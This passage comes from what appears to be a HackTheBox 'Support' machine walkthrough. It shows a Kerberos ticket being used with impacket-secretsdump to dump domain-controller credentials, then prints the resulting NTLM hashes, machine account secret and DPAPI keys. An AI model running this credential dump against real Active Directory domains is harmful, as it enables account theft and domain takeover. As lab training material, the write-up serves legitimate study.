 - and now we can read the root flag

![](assets/Support_assets/Pasted%20image%2020231116202645.png)

- we can also dump the hashes on the DC by running

```shell
export KRB5CCNAME=Administrator.ccache 
impacket-secretsdump -k target-ip 10.10.11.174 dc.support.htb
```

![](assets/Support_assets/Pasted%20image%2020231116203455.png)


```shell
┌──(kali㉿kali)-[~/HTB/Support]
└─$ impacket-secretsdump -k -target-ip 10.10.11.174 dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
SUPPORT\DC$:plain_password_hex:bcacb948c52993bea7f6a61eff982bfc5c093a3d7cc2b2171c98f152d193bebedbeae13b2f322f46c749f4bb7b66a4bbc44481dec79fb580870bf0c878f5ee54d277c1feeb70acec47645770517145a8fa3cf84fecf322659a060143cfc1b5605ef39dcd9c3c6fdd90b5751e0137b479f659f037e55dba75120d4979d8b9e0f04b749c3db799d01d502c1eb577a40107d688828ad1787bb62229d207d93b8da1247020733da9d84d2c656140eb8ea8cf641b29e5b61bae629f6159a5bbedd060b8de60837c938b6deb7b7f3d8d4fc06a56099d17fc5d93c44181714a1de29bf4e03cca05632408551fdfc4d84628a7c6
SUPPORT\DC$:aad3b435b51404eeaad3b435b51404ee:0bf2e98d5fe97df54362cca10b807bd9:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5f39b9187072640dd3b9ebc53cdcbd2cda166279
dpapi_userkey:0xc98d4a2ff3c17181eaaad459d6383cff7c72bc2d
[*] NL$KM 
 0000   D7 80 3F C7 76 67 B3 22  E7 C9 9B 98 33 D7 F1 A4   ..?.vg."....3...
 0010   E9 EE B2 38 B7 E0 34 5F  12 36 AB 44 F2 4F 75 7D   ...8..4_.6.D.Ou}
 0020   56 22 0F 0F 3C 2D 2E 4C  E6 FD 61 01 63 A4 32 B4   V"..<-.L..a.c.2.
 0030   CE 66 7B DB E7 CF 28 F8  4C 9E 9C 46 A0 61 1B 8B   .f{...(.L..F.a..
NL$KM:d7803fc77667b322e7c99b9833d7f1a4e9eeb238b7e0345f1236ab44f24f757d56220f0f3c2d2e4ce6fd610163a432b4ce667bdbe7cf28f84c9e9c46a0611b8b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```